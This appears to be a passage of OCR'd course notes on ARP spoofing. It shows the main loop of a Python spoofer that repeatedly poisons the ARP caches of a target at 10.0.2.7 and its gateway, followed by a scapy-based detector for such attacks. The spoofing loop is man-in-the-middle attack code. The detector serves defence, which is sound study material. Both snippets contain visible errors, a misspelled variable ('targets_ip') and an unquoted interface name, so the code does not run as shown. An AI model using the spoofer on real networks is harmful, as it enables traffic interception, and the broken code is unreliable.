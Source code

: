 ```
	
target_ip = "10.0.2.7"
gateway_ip = "10.0.2.1"

try:
	packets_sent_count = 0
	while True:
		spoof(target_ip, gateway_ip)
		spoof(gateway_ip, targets_ip)
		packets_sent_count = packets_sent_count + 2
		print("\r[+] Sent " + str(packets_sent_count))
		sys.stdout.flush()
		time.sleep(2)
except KeyboardInterrupt:
	print("\n[-] Quitting.\n")
	restore(target_ip, gateway_ip)
	restore(gateway_ip, target_ip)
```

### 03.1 - ARP Spoof Detector

- Watch value for gateway MAC in ARP table- but this method won't work if tool is executed after attack.
- So analyze 'is-at' ARP responses.

#### Steps

1. Check if IP is gateway IP.
2. Check if source MAC is actually gateway MAC.

#### Code

```
#!/usr/bin/env python

# arpspoof_detector.py

import scapy.all as scapy

def get_mac(ip):
	arp_request = scapy.ARP(pdst=ip)
	broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
	arp_request_broadcast = broadcast/arp_request 
	answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
	return answered_list[0][1].hwsrc

def sniff(interface):
	scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)
	
def process_sniffed_packet(packet):
	if packet.haslayer(scapy.ARP) and packet[scapy.ARP].op == 2:
		
		try:
			real_mac = get_mac(packet[scapy.ARP].psrc)
			response_mac = packet[scapy.ARP].hwsrc
			print(packet.show())
		
			if real_mac != response_mac:
				print("You are under ARP Spoof Attack!")
				
		except:
			pass

sniff(eth0)
```
